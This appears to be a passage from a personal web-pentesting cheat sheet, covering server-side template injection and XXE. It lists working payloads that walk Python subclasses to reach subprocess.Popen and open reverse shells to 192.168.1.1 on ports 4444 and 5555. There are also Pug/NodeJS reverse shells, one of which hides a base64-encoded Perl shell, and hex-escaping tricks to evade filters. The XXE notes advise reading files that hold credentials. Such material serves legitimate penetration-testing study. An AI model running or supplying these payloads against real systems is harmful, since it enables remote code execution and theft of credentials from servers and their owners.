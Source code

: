 				{% set subclasses = "__subclasses__" %}
				{% set mro_r = string|attr(class)|attr(mro) %}
				{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
				{{ subclasses_r }}
			Selecting subprocess.Popen:  {{ subclasses_r[997] }}
				RCE (create file):  {{ subclasses_r[997](["/usr/bin/touch","/tmp/test"]) }}
				RCE (shell):  {{ subclasses_r[997](["/usr/bin/python2.7","-c",'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']) }}  
	Pug (NodeJS):
		#{7*7}
		Reverse Shell #1 (w/ 'child_process' filter evasion):
			#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad(\\"child_p\\\\x72ocess\\").exec('bash -c \\"sh -i >& /dev/tcp/192.168.1.1/5555 0>&1\\"')}()}
		Reverse Shell #2:
			#{spawn_sync = this.process.binding('spawn_sync')};#{ normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}};#{spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}};#{payload='dXNlIFNvY2tldDskaT0iMTkyLjE2OC4xMTkuMTQ4IjskcD01NTU1O3NvY2tldChTLFBGX0lORVQsU09DS19TVFJFQU0sZ2V0cHJvdG9ieW5hbWUoInRjcCIpKTtpZihjb25uZWN0KFMsc29ja2FkZHJfaW4oJHAsaW5ldF9hdG9uKCRpKSkpKXtvcGVuKFNURElOLCI+JlMiKTtvcGVuKFNURE9VVCwiPiZTIik7b3BlbihTVERFUlIsIj4mUyIpO2V4ZWMoIi9iaW4vc2ggLWkiKTt9Ow=='};#{resp=spawnSync('perl',['-e',(new Buffer(payload, 'base64')).toString('ascii')])}
		Another Filter Evasion:  localLoad("\x63\x68\x69\x6c\x64\x5f\x70\x72\x6f\x63\x65\x73\x73")

## XML External Entity (XXE):  

    https://gitlab.com/pentest-tools/PayloadsAllTheThings/-/tree/master/XXE%20Injection
    https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
    https://github.com/payloadbox/xxe-injection-payload-list
	If there's an XML parser without proper input validation (API, etc.)
    *See XXEPayloads.txt for brute-forcing
	Used for: enumeration (listing & reading files)
		Some languages like PHP can lead to RCE
    Tips:
        ***ENUMERATE - List directory contents too! - ex. file:///home/student/crx/
        **Files to target: admin keys, tomcat-users.xml, config files, batch files, shell scripts, etc. - anything with creds  
        **Test PHP RCE method!
    Background:
        Internal Entities:  <!ENTITY name "entity_value">, ex. <!ENTITY test "<entity-value>test value</entity-value>">
        External Entities:  
            Private:  <!ENTITY name SYSTEM "URI">, ex. <!ENTITY offsecinfo SYSTEM "http://www.offsec.com/company.xml">
            Public:  <!ENTITY name PUBLIC "public_id" "URI">, ex. <!ENTITY offsecinfo PUBLIC "-//W3C//TEXT companyinfo//EN" "http://www.offsec.com/companyinfo.xml">
        Parameter Entities:  <!ENTITY % name SYSTEM "URI">, ex. <!ENTITY % course 'AWAE'> then <!ENTITY Title 'Offensive Security presents %course;' >
        Prevent Payload Parsing:
            Private:  <!ENTITY name SYSTEM "URI" NDATA TYPE>
            Public:  <!ENTITY name PUBLIC "public_id" "URI" NDATA TYPE>
	Basic Examples: